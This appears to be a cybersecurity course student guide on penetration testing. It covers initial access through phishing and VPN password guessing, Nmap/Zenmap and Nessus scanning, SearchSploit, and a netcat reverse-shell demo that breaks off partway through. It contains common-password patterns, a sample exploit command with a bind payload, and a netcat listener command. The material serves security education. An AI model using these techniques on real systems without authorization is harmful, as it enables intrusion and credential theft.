




## 16.2 Student Guide: Initial Access and Internal Recon

### Overview

In today's class, you will be introduced to the MITRE tactic of **initial access** by applying phishing and accessing a VPN to gain access to an internal network. You will then proceed with the penetration testing engagement by running Zenmap to **scan** a network, and finally, end with **exploitation** of a vulnerable machine.

### Class Objectives

By the end of class, you will be able to:

- Understand how initial access fits into the MITRE matrix.
- Recognize phishing emails and understand why attackers so commonly use them in order to obtain initial access.
- Perform advanced Nmap scans with NSE scripts.
- Exploit a machine with a Python script.

### Slideshow

The lesson slides are available on Google Drive here: [16.2 Slides](https://docs.google.com/presentation/d/1LBEdsvKdnvia0hg1qKy9VbmrGQDE8IRmpTDO1sAP-PE/edit#slide=id.g4789b2c72f_0_6).

-------

### 01. Welcome and Day 1 Recap 

Let's review the important concepts covered on Day 1:

- **Penetration testing**, often referred to as **pen testing** or **ethical hacking**, is the offensive security practice of attacking a network using the same techniques that a malicious hacker would use, in an effort to identify security holes and raise awareness in an organization. 

- The five phases of a pen testing engagement are **planning and reconnaissance**, **scanning**, **exploitation**, **post exploitation**, and **reporting**. 

- **Reconnaissance**, which is part of the **planning and reconnaissance** phase, consists of gathering information about your target.

   - **Passive recon** often refers to **open source intelligence (OSINT)**, which leverages information about the target that is publicly available on the internet. This includes all domains and hosts belonging to a target that are publicly viewable. 

   - **Active recon** refers to directly interacting with the target's internal network. (We will do this today.)  

- The **scanning** phase consists of conducting port scans against assets in order to find out which ports are open and the services behind those ports.

- **Exploitation** is the phase in which the pen tester will actively exploit a vulnerability or misconfiguration in order to compromise a machine.

- **Post exploitation** occurs after a machine has been compromised and exploited. This phase consists of searching the machine for sensitive files or looking for other bits of information on the machine that can assist in accomplishing the pen testers objective.

- **Reporting** is the phase where a detailed report is drafted for the client. This will contain all the actions performed during the assessment and the security findings that the pen testing team found.
   
Today, we will be focusing on **reconnaissance**.

- A company called **MITRE** developed the **MITRE ATT&CK matrix** to provide a visual representation of all the different **techniques, tactics, and procedures (TTPs)** that may be performed throughout an assessment.

- **Google dorking** is a reconnaissance tactic in which we manipulate Google searches to narrow down our queries in order to acquire actionable intel. 

- **Certificate transparency** is another reconnaissance tactic where a penetration tester gathers information from certificate issuers, which publish logs of the SSL/TLS certificates that they issue to organizations.

- **Shodan.io** is a reconnaissance website that conducts port scanning across the entire internet and catalogs the results for quick searching.

We ended Day 1's lesson by using Shodan and Recon-ng in the **planning and reconnaissance** phase to identify subdomains and other related domains belonging to MegaCorpOne.

- Today, we will begin using the information that we gathered to obtain initial access into MegaCorpOne's internal network.

- Then, we will proceed with the next phases of an engagement, **scanning** and **exploitation**.

Every method we use this week will tie back to a specific tactic and technique found on the  MITRE ATT&CK matrix. 

### 02. Gaining Initial Access 

During Day 1, we used several passive reconnaissance tools, such as Google dorking and Shodan, to gather information about our target.

   - That information can be used to gain initial access into our target.
     - For example, perhaps through Google dorking you find an employee name and that person's job title, direct reports, and email address. You could use that information to craft a deceptive email to try and obtain the employee's credentials for their private network.

MITRE defines **initial access** as follows:
   - *Initial access consists of techniques that use various entry vectors to gain their initial foothold within a network. Techniques used to gain a foothold include targeted spear phishing and exploiting weaknesses on public-facing web servers. Footholds gained through initial access may allow for continued access, like valid accounts and use of external remote services, or may be limited-use due to changing passwords.*
   - Initial Access is a MITRE tactic, **ID TA0001**: https://attack.mitre.org/tactics/TA0001/.

In this section, we will cover two methods of gaining initial access to a target machine or network: 

- **Phishing:** The most common method, in which the attacker crafts a fraudulent email that misleads the recipient into clicking on a link in the email. 
- **Remote services through valid accounts:** This method involves gaining access to the target by guessing credentials on a VPN login portal. These techniques are categorized by MITRE as Valid Accounts and External Remote Services. 

We will explore both of these methods, and then you will attempt to gain access to a target via a password guessing method. 
   - Phishing: https://attack.mitre.org/techniques/T1566/
   - Valid Accounts: https://attack.mitre.org/techniques/T1078/
   - External Remote Services: https://attack.mitre.org/techniques/T1133/

Note that initial access commonly becomes the longest tactic time-wise, due to the limited number of avenues at the pen testers' disposal.

-  In a full-view pen test or red-team engagement, initial access is often ceded or granted at the start of the assessment to avoid spending long amounts of time gaining initial access.

#### Phishing 

**Phishing** is the most common way an attacker gains access to the internal network. 
  - MITRE’s Phishing page: https://attack.mitre.org/techniques/T1566/.

The goal of phishing can vary.
- Sometimes a phishing email is sent only to obtain credentials.  
- Other times, the email contains a malicious link that will install malware or a backdoor on the victim's computer.

Phishing is more like a social engineering exercise than a technical abuse.
- Unlike other attacks, phishing leverages human error by crafting misleading and convincing fraudulent emails.  
- Therefore, there is no “patch” to prevent phishing. 
- An organization’s best defense against phishing is knowledge. Users should be required to complete “security awareness” training.  Upon completion, users will be able to identify phishing attempts.

Have you ever encountered phishing attempts? Can you name any telltale signs that an email is a phishing attempt? 

- Typos in the body of the email and the sender’s email address are common flags. 
- **Typosquatting** is a common tactic in which an attacker will register a fraudulent domain similar to a legitimate one. 
   - E.g., Google.com vs. GoogIe.com (the second domain has a capital "i" instead of a lowercase "l").
- Subdomains are often registered to mimic real domain names.
   - E.g., payments.google.com vs. paymentsgoogle.bogusdomain.com
   - Remember that domains can be spoofed if proper DNS protections are not in place.
- If an email asks you to do something that's not traditionally part of your job or that's possibly risky, it's always better to confirm the task in person or by another means of contact.

Next, we will do a class activity to practice detecting phishing emails.

### 03. Phishing Quiz 

Given our current classroom setting, it is not logistically feasible to perform a phishing campaign. It is also illegal without written consent from the target. 

- Instead, we can practice detecting the difference between authentic and phishing emails with the following online activity created by Google: [Google Phishing Quiz](https://phishingquiz.withgoogle.com/).

### 04.  Valid Accounts, External Remote Services, and Password Guessing 

We will now take a look at another common tactic used to gain initial access on a target.

  - Similar to a real attack, many different tactics may be attempted to gain access to a target during a penetration test.

Another way of gaining initial access is by finding a VPN configuration file belonging to the target and logging in to the VPN with stolen credentials. 

- This method leverages two techniques from MITRE:
  - [Valid Accounts](https://attack.mitre.org/techniques/T1078/): The attacker uses real user accounts to gain access.
  - [Remote Services](https://attack.mitre.org/techniques/T1133/): The attacker uses remote services such as VPN to try and gain access from outside of the target's network.

- Consider the following scenario to understand how Valid Accounts and External Remote Services tactics might be applied:
  - Recall that in one of the previous day's OSINT activities, we tried to find subdomains for meagcorpone.com.
  - Suppose that during this process, we discovered an additional subdomain, vpn.megacorpone.com, that directly handles VPN connections and configurations for the MegaCorpOne domain.
  - We accessed this site and determined that it contains a login portal asking for a user id and password.
     - If a pen tester is able to supply correct credentials, they will be able to log in to the portal and download the VPN configuration file. 
 - So, how do we determine what credentials to use to try and gain access to the target?

While it's recommended that users and administrators create complex passwords, they often do not.
  
  - Due to this vulnerability, it is not uncommon for pen testers to attempt and succeed at logging into accounts using weak, commonly used passwords. 

The method they would apply is called **password guessing**, a systematic method of guessing passwords to obtain access into a target.

Can you guess the most commonly used password in 2021?
   - Answer: "123456."
   
   - Refer to this [website](https://cybernews.com/best-password-managers/most-common-passwords/) if you are interested in learning more commonly used passwords.

Many common passwords use the following: 
- Variants of "password" (P@ssw0rd, pa$$w0rd, etc.)
- SeasonYear (Winter2020, Summer2021)
- The user’s own username, or variants of it (bob, b0b, a$hl3y, etc.)

All of this information can help pen testers succeed in correctly guessing a user's password.

Password guessing has also been used in high-profile breaches such as the SolarWinds hack.

  - During this attack, the threat actors used password guessing to breach their targets.
  - [ZDNet.com:SolarWinds hackers also used password guessing to breach targets](https://www.zdnet.com/article/cisa-solarwinds-hackers-also-used-password-guessing-to-breach-targets/).  

#### Summary

- **Initial Access** is a MITRE tactic covering methods for gaining access into a target's system.
- **Phishing** is the most commonly used initial access method. It leverages human error by crafting misleading and convincing fraudulent emails.
   - **Typosquatting** is a common tactic used with phishing in which an attacker will register a fraudulent domain similar to a legitimate one.
- **Remote Services through Valid Accounts** is another initial access method, where the attacker uses real user accounts to gain access through a remote service, such as VPN.
   - This method can be used in conjunction with **password guessing**, as users often have weak and commonly used passwords.

In the next activity, you will attempt to guess a MegaCorpOne user’s password and then download a shell script that will provide access to the company’s network.

### 05. Accessing Remote Services through Valid Accounts

- [Activity File: Remote Services and Valid Accounts](activities/01_PasswordGuessing/Unsolved/README.md)

### 06. Accessing Remote Services through Valid Accounts 

- [Solution File: Remote Services and Valid Accounts](activities/01_PasswordGuessing/Solved/README.md)

### 07. Scanning and Internal Reconnaissance

So far we have:

 - Conducted passive reconnaissance to find domains and users from our target.
 - Gained initial access by use of remote services through valid accounts.

Now that we are inside the network of our target, MegaCorpOne, we will now perform reconnaissance inside the internal network, known as **active reconnaissance**, in order to reveal which devices are on the network and what potential new targets await.
- We call this **active reconnaissance** because we are now directly interacting with our target.
- It is also considered **internal reconnaissance** because we are conducting this *internally* within the target. 
- While inside the network, we can gather the following:
    - Information about the host, known as **host enumeration**
    - Information about processes on the system, known as **process enumeration**
    - Information about the users on the system

#### Scanning

Additionally, we can more aggressively gather information through a process called **scanning**.

 - **Scanning** is the second phase of a pen testing engagement, after planning and reconnaissance. Scanning uses tools to gather information such as network information and potential vulnerabilities.
 - While in our example we will scan our target from inside their network, scanning can also be conducted externally and before initial access.
 - **Nessus**, **Hping**, and **Nmap** are tools that we often use to conduct scanning.

We'll explore the scanning phase by revisiting the tool **Nmap**.

  - Nmap is a popular scanning tool that we covered in the earlier Networking modules.
  - Nmap excels at identifying which ports are open, the services behind those ports, and their versions.
  - Nmap has additional functionality that we will explore in a later activity. 

Using Nmap, we will search the machines on the network for any potentially vulnerable services that are outdated or could potentially be abused, e.g., brute-forcing SSH logins. 
 
It's also very important to try and identify the purpose of the machines on the network. For example:
- A properly set up network will have several virtual LANs (VLANs), each with a different purpose.
   - E.g., servers on one VLAN, workstations on another
- Identifying high-value targets (secret-storing servers, domain controllers, etc.) is important, as they're often an end-game target in a penetration test. 
- Contrary to popular belief, servers often have less security software on them than user workstations, because businesses focus more on preventing attackers from gaining initial access.

#### Nmap and Zenmap Demonstration

We will now demonstrate how to use the scanning tools Zenmap and Nmap.

In this demonstration, you'll complete the following steps:
  - Use Nmap to perform a port scan on an internal network.
  - Introduce a GUI alternative to Nmap called Zenmap. 
  - Use Zenmap to perform a port scan and highlight additional features offered. 

To perform a port scan on the internal network, complete the following steps:

1. Open a terminal, and look up your IP address by typing `ip addr`, as the following image shows:
	
    
	
2. Using the IP address under `eth1`, perform an Nmap scan against the network using the /24 CIDR, as the following image shows:
	
    

    - Minimize the scan window, and let the scan run. Continue with the lesson, and we'll revisit the scan in a few moments.

3. As the scan runs, take this time to introduce **Zenmap**. 

    - While working off the command line has its perks, sometimes a GUI is preferable. Nmap's GUI application is called **Zenmap**. 

4. Return to the Nmap scan's terminal window, and note that there are several machines on the network with several open ports. We will re-perform this scan, but with the additional capabilities provided by Zenmap. Begin by starting up Zenmap. 

    - Open a terminal and type `zenmap`.

5. Note the fields at the top of the application: 

    - **Target** is where we input a hostname or IP address. CIDR notation is also accepted.

    - **Profile** is a drop-down menu that contains several pre-built scans. These can be changed and edited. You can also create custom profiles. 

    - **Command** shows the Nmap command being run. This will update automatically if we change or edit a profile.

6. Begin by selecting the **Intense scan** profile.

    - Select **Intense scan** from the drop-down menu next to **Profile**.

    - Note that our **Command** field has changed to `nmap -T4 -A -v`. 

       - `-T4` is used to increase the scan speed. 

       - `-A` includes OS and version detection, script scanning, and traceroute.

       - `-v` is level 1 of verbose, which shows status updates as the scan progresses.

7. Next, we will edit this intense scan profile.

    - At the top, select **Profile**, as the following image shows:

       

    - Then, select **Edit Selected profile**.

    - Click the **Scripting** tab at the top of the screen, as the following image shows:

       

   - This tab will display a list of NSE scripts. 

      - **Nmap scripting engine (NSE)** scripts are scripts written in the programming language LUA. They perform an action on a desired port or service. 

      - NSE scripts are commonly used to test whether a service is vulnerable to an exploit. 

      - By default, Zenmap's intense scan uses some basic NSE scripts. However, we'd like to add additional scripts to our scan.

8. We'll select a few of the many NSE scripts listed in the Scripting tab. What scripts we decide to run typically depends on the discovered ports and services of the host. (It's better to do a regular port scan or version scan first to determine what ports are open, then perform another Nmap scan with NSE scripts selected.)

    - Select **smb-os-discovery** and **smb-system-info** toward the bottom of the list, as the following image shows:

	   

9. Save the profile, and then enter the network range IP in the **Target** box and click **Scan**.

10. Let the scan finish, and scroll down to the machine with port 445 open, as the following image shows:

    

    - The NSE scripts that we selected performed additional scanning on the SMB service. This provided more information, which ultimately confirmed that the machine is a Windows 10 machine.

#### Summary 

  - **Scanning** is the second phase of a pen testing engagement, after planning and reconnaissance. Scanning uses tools to gather information such as network information and potential vulnerabilities.
    - While in our example we scanned our target from inside the network, scanning is often conducted externally, before initial access.
  - **Nessus**, **Hping**, and **Nmap** are tools that we often use to conduct scanning.
  - **Zenmap** is the GUI version of Nmap. It provides an easy-to-use tool to automate scanning tasks.
  - **NSEs (Nmap scripting engines)** are scripts that are commonly used to test whether a service is vulnerable to an exploit. 

### 08. Zenmap 

- [Activity File: Internal Reconnaissance](activities/03_Zenmap/Unsolved/README.md)

### 09. Zenmap

- [Solved Guide: Internal Reconnaissance](activities/03_Zenmap/Solved/README.md)

### 10. Vulnerability Scanning 

Remember that NSE allows users to modify and create custom Nmap scripts for their individual needs.

- With NSE, we can perform DNS enumeration, OS fingerprinting, vulnerability detection, malware discovery, and many other tasks. 

Although NSE has its advantages, it also has disadvantages when compared to vulnerability scanners:

   - NSE is not fully comprehensive, meaning many vulnerabilities are not covered.
   - NSE cannot perform a large number of scans simultaneously.
   - NSE is most efficient when performing single host scans.
   - NSE is most useful when doing basic information gathering or enumeration activities.

Vulnerability scanners can help make up for many of the limitations of NSE.

Vulnerability testing often gets confused with penetration testing. While similar, they have distinct differences:

- Vulnerability scanning identifies systems that have known vulnerabilities.

   - Scans use a database of known vulnerabilities.
   - Vulnerabilities are rated based on the severity level.
   - Vulnerabilities are given a Common Vulnerability Scoring System (CVSS) score.  
   
- Penetration testing attempts to identify weaknesses that can be exploited, such as:

   - Specific system configurations
   - Organizational processes and practices

For these reasons, vulnerability scanning is often found more during security audits rather than penetration tests. Unfortunately, companies often do not understand the differences between the two and sometimes think a vulnerability scan passes as a penetration test when they're actually very different.

#### Vulnerability Scanning and Nessus

A vulnerability scanner, such as Nessus, is an application that identifies vulnerabilities and creates inventory of all interconnected systems. These include the following:

   - Servers
   - Desktops
   - Laptops
   - Virtual machines
   - Containers
   - Firewalls
   - Switches
   - Printers

Most vulnerability scanners attempt to log into systems using default passwords or other credentials in order to establish a more detailed picture of the network infrastructure.

After establishing an inventory list, the vulnerability scanner checks each item in its inventory against one or more databases of known vulnerabilities to see which items are associated with specific threats.

#### Nessus Vulnerability Scanning Demonstration

**Nessus** is one of many vulnerability scanners available today. It is used to perform  vulnerability assessments and penetration tests, in addition to malicious attacks.

- Other popular vulnerability scanners are:

   - **OpenVAS:** A fully featured, freely available, open-source vulnerability scanner sharing many of the same capabilities as Nessus. It comes preinstalled with Kali Linux.
   
   - **Nexpose:** A vulnerability scanner developed by Rapid7 that comes fully integrated with Metasploit. It's sold as a stand-alone software package that can also be used as a managed service or private cloud deployment.

The **National Vulnerability Database** (NVD) is a source of exploit information that grades each vulnerability based on its severity level.

- For example, if you google NIST CVE-2016-0800, you will find the nvd.nist.gov webpage, which provides details, references, and a score of 5.9.

- Severity levels are scored using the Common Vulnerability Scoring System (CVSS v3.0).

Numerical scores are translated into qualitative categories (low, medium, high, and critical), to help security administrators properly assess and prioritize vulnerabilities.      

This lesson will use Nessus to demonstrate how to perform scans and interpret the results.

1. Nessus has been installed and started on this machine

2. Launch the Firefox browser and navigate to https://kali:8834.

   - Since this is not a real website, Firefox will inform us that our connection is insecure. 
     - Click **Advanced**.
     - Click **Add Exception**.
     - Click **Confirm Security Exception**.

   - Log in with the following credentials: `root:toor`.

      

**Note:** When logging in for the first time, it can take up to two minutes while the Nessus Scanner is compiling plugins. 

3. After the program launches, we're presented with the Scan page.

   The Nessus user interface is made up of two main parts:

      - The Scan page, where we can set up scans.

      - The Settings page, where we can manage application configuration settings.
   
4. There are two scan types:

      - **Credentialed** scans use appropriate privileges and provide a more accurate view of risks. Downsides include a high number of false positives and high bandwidth usage.         
      
         - The reason for the high false positives count is that there are a lot of different versions and packaging for any number of services you may download. Because of this, Nessus will flag a service that it is unsure about to avoid false negatives. 
      
         - Credentialed scans often finish more quickly than uncredentialed scans due to reduced back-and-forth communication checks between the scanner and its target.

      - **Uncredentialed** scans enumerate system service and version numbers on open listening ports, then perform a vulnerability check against a known list of associated exploits.
	  
	- During an audit, it's common that the customer will give the auditors credentials to machines so they can perform credential scans. The scan in this example is not credentialed and will only show the ports and their services.

5. Double-click on the scan **My Basic Network Scan** to open the scan overview. 

**Note:** If you see the following error, note that we are not using APIs with our scanner, but we can troubleshoot this easily. 

Open a new browser window and navigate to Firefox's settings. In the upper-right-hand corner search bar, search for "cache." Click on **Clear Data** and return to the Scans page in Nessus. Refresh the page and continue.

   - Returning to the Scans page in Nessus, note that we can see several useful pieces of information:

      - Scan progress, which in this case is "Completed."

      - A bar graph displaying the number of vulnerabilities at each severity level.

      - A pie chart showing severity levels.  

      

6. Click on the **Vulnerabilities** tab.

   - Nessus assigns all vulnerabilities to a specific severity level based on the National Vulnerabilty Database or NVD CVSSv3 score as follows: 

      - Critical: 9.0 - 10.0
      - High: 7.0 - 8.9
      - Medium: 4.0 - 6.9
      - Low: 0.1 - 3.9
      - None: 0

       **Note:** Vulnerabilities classified as "None" aren't necessarily actual vulnerabilities. These can just be additional information that may be useful to an attacker.

     

7. Clicking on individual vulnerabilities will display specific details about that vulnerability.

   - Click on the critical vulnerability listed toward the top of the list: Apache Tomcat AJP Connector Request Injection (Ghostcat)

   - Nessus detected a code injection vulnerability by performing an port scan, finding the version of the running service, then performed a CVE lookup in the background.

   - Nessus combines multiple functions into one, which is one of the advantages of using Nessus.

     

8.  Auditors will typically include vulnerability scan reports in their assessments. Nessus also has report generating capabilities.

      - Click on **Report** in the top right corner.
      
      - In the pop-up, select **PDF** and "Complete List of Vulnerabilities by Host." Then click **Generate Report**.

      

      - This will create a PDF version of the scan results that includes a customizable executive summary.

      - This document will be included in the assessment as a deliverable to the client.

       
	  
While vulnerability scans may seem comprehensive, they often have some issues:

- False positives are common in vulnerability scanners. It's up to the individual performing the scan to check their validity with other tools.

- Severity scores are heavily subjective. For example, a CVSS score 8 vulnerability on a machine with a public IP address would always take priority over a CVSS score 10 vulnerability on a private machine due to the higher risk of an attack since it's accessible from the public internet.

A vulnerability scanner essentially compares an in-depth port scan to a list of CVEs. It cannot chain attacks together or verify with 100% accuracy if a vulnerability does exist. This is where a penetration tester comes in.

#### Summary

- Nessus is a free, open-source network vulnerability scanner that uses the Common Vulnerabilities and Exposures database to correlate security compliance with specific security threats.

- Nessus discovers vulnerabilities that malicious hackers can exploit to breach a network, and it generates reports.

- Vulnerability scans search for known vulnerabilities in a system and report potential exposures. 

- Penetration tests exploit weaknesses in network infrastructure to determine the level at which a malicious actor can gain unauthorized access. 

   - Vulnerability scans are typically automated.
   
   - Penetration tests are manual tests performed by a security professional, thus vulnerability scanning is not common in actual penetration tests.

While we will not use Nessus beyond this lesson, it is important for you to know that vulnerability scanning and vulnerability management are common first jobs in security and are often a gateway into penetration testing. 

### 12. SearchSploit 

- So far, we learned how to obtain initial access by using tactics of phishing and password guessing credentials on a VPN.
- Once inside the network, we learned how to use scanning tools such as Nmap and Zenmap to determine open ports and running services on our targets.

Through our Nmap scans, we've found several services on several machines on the network. 

- Through our Zenmap intense scan, we discovered the version on some of the services. 

- These services and their versions can quickly be searched for any vulnerabilities and exploits written for them.

We will now learn how to use another tool to determine which exploits we can attempt with the information that we gathered on our scans: Exploit-DB.

#### Exploit-DB

The webpage **Exploit Database (Exploit-DB)**, at https://www.exploit-db.com/, is a popular online database that contains publicly disclosed exploits.  

- Penetration testers can search through this webpage to find exploits.
- The exploits are cataloged according to their **Common Vulnerability and Exposure (CVE)** identifiers.

- For example, Oracle Global Desktop 4.61.915 is an exploit listed on the Exploit-DB website.

    

- Notice that the CVE number assigned to this particular vulnerability is 2014-6278.

- CVE numbers typically start with the year in which the vulnerability was discovered (in this case 2014).

Exploit-DB's catalog of exploits is constantly updated as software developers patch their systems.

- Exploit-DB is run by Offensive Security, who also maintain Kali Linux and administrate several certifications, such as the OSCP.

#### SearchSploit 

While the Exploit-DB website can be very useful, pen testers may conduct penetration tests from networks without internet activity, which makes it difficult to access the Exploit-DB website.

- This issue is addressed with a tool called **SearchSploit**.

**SearchSploit** is a command-line utility for Exploit-DB that allows you to take an offline copy of the Exploit Database with you wherever you go.

- SearchSploit allows security professionals to perform detailed offline searches of hundreds of exploit scripts through their local copy of the repository.
   
   - This capability is useful if you are working on a security assessment with an air-gapped, segregated network that lacks internet connectivity.
   
   - If you anticipate that you will not have internet connectivity during an assessment, update your local repo by checking out and downloading the most recent Exploit-DB repository while you still have access to the internet.

SearchSploit, as indicated by its name, will search for all exploits and shell code contained within the Exploit-DB repository.

 - SearchSploit comes preinstalled on Kali Linux, but should be updated on a weekly basis and prior to each use. 

#### SearchSploit Demonstration

This demo will detail how to use this VM to run a Shellshock exploit on the Shellshock VM, which is an intentionally vulnerable machine designed to test the Shellshock exploits.

In this demonstration, you will conduct the following steps:

- Run through some basic help commands that are useful when searching for exploit scripts. 
- Discuss the various file formats associated with SearchSploit exploit scripts.
- Break down the command syntax for the typical `searchsploit` command.
  
1. Begin by showing the SearchSploit help option. The `-h` flag provides information about proper command syntax, flags, and options.

2. As the name suggests, SearchSploit is a search tool. Let's perform a basic search:
  
    - Run `searchsploit ftp remote file`

    - This command will search the exploit database for the three terms: "ftp," "remote," and "file."

    - **Note:** SearchSploit uses an **and** operator by default.

        

3. By default, SearchSploit includes the title and path of the exploit in its query. Searches can be restricted to specific titles with the `-t` option. 

    - Run `searchsploit -t oracle windows`

       
    - The `wc -l` option will return the number of exploits in the search:     

       - `searchsploit -t oracle windows | wc -l`
   
    - Without the `-t` option, the command will search for results containing "oracle" **and/or** "Windows." 
   
       - `searchsploit oracle windows | wc -l`   
   
        

4. We can leave out unwanted results with the `--exclude` option. We can remove multiple terms by separating the term values with a pipe `|`.

    - `searchsploit linux kernel 4.4 --exclude="(PoC)|/DCCP/"`

       - `--exclude="(PoC)|/DCCP/"`: Leaves out all lines that contain both "PoC" and "DCCP."

        

5. To access more exploit metadata, such as setup files, vulnerability mappings, screenshots, and tags, we need to access the exploit-db.com website. The `-w` option will provide the website in the results. 

    - Run `searchsploit mysql 6.0 -w`

      The search query returns URLs for the webpages of the associated exploits.

       

    - Open the first link in a web browser and observe the results.

       - In the example below, we observe the results for **EDB-ID: 40465 (Exploit-DB ID #40465)**.

       - Exploit-DB provides expanded search results that contain more exploit details.

       - Scroll down the webpage for the full details of the exploit. 

        

6. SearchSploit exploit scripts come in a variety of file types, including `.rb`, `.py`, `.sh`, `.html`, and `.txt`.

    - `.rb`: Scripts written in Ruby, most likely for Metasploit, a penetration testing framework and C2 platform that we'll explore later in class
    - `.py`: Python
    - `.sh`: Bash
    - `.html`: HTML
    - `.txt`: text editor
   
    Run the following command: 

    - `searchsploit -t java`

   
      
   
    If we wanted to run the exploit script `exploits/windows/remote/43993.py`, we would need to use the following Python command (**Note:** Do not actually run this command. It is just an example.):
   
    - `python exploits/windows/remote/43993.py payload=bind rhost=172.168.0.10 rport=1234 pages=/cgi-bin/status`
     
       - `python`: Command required to run Python scripts
       - `exploits/windows/remote/43993.py`: Name of the Python exploit script
       - `payload=bind`: The payload setting. In this example, the payload is a **bind** payload. 
          - We use a bind payload when we know the IP address of the target. We’ll discuss the specifics of bind shells and payloads in the next module.
       - `rhost=172.168.0.10`: IP address of the remote host
       - `rport=1234`: Port number of the remote host
       - `pages=/cgi-bin/status`: The specific page that you are trying to attack

### 13. Exploitation with Shells

We just covered how **Exploit-DB** and **SearchSploit** can help pen testers determine which exploits can be conducted against a target.
- Now that we have determined what exploits we can attempt, we are ready to try them in the next phase of our engagement, **exploitation**.

- A common goal of exploitation is to obtain access to the remote machine. 

 - Exploited access to the machine is typically granted in the form of terminal access, which is referred to as a **shell**. 

- A **shell**, simply explained, is a terminal. Opening a terminal on your Kali machine is opening a "shell" on your own machine.
- A **remote shell** is a shell opened on a remote computer on the network.

We will cover two types of shells today: **reverse** and **bind**. 

- A **bind shell** is where the remote host opens a port for the current host to connect to. The current, local host then connects to that remote host's port.
- A **reverse shell** is where the remote host connects back to a port on the local host. 

The advantage of a reverse shell over a bind shell is that egress (exit) ports are more commonly open than ingress (enter) ports. 
 - This means that a remote host will have fewer firewall issues connecting back to a port on the local host. This also circumvents NATing.
    - For example, if a remote host is in an internal network that is different than the current/local host, a bind shell will not work because the local host has no way of connecting to the remote host without NAT rules. A reverse shell is preferable because the remote host is connecting directly back to the local host.

#### Shells Demonstration

We will use a networking command-line tool called **Netcat** to demonstrate bind and reverse shells. 
  - Netcat is primarily used to view traffic across a network. 
  - Netcat is often referred to as the "Swiss army knife" of networking tools, because it can assist with many security and admin activities.

Note that this demonstration will not show an exploit, but will show how certain exploits use shells to provide the attacker terminal access on a target.

1. In Kali, open a terminal and type `nc -h` to show the Help menu for Netcat.
    - The old version of Netcat was accessed by typing `ncat`. We use `nc` to access the new version, which has additional functionality.

**Reverse Shells**

2. First, you'll demonstrate a reverse shell. Use Netcat to listen on port 4445 by typing `nc -lvp 4445`, as the following image shows:

   

   - This will act as the attacker's host, which is now listening for a connection from a remote machine.
   - The flags used are: `l` (listen), `v` (verbose), `p` (port).
 
3. Open another terminal window (not tab) and position it next to the current terminal window where `nc` is listening, as the following image shows: 

    

    This new window will act as the victim/target machine.

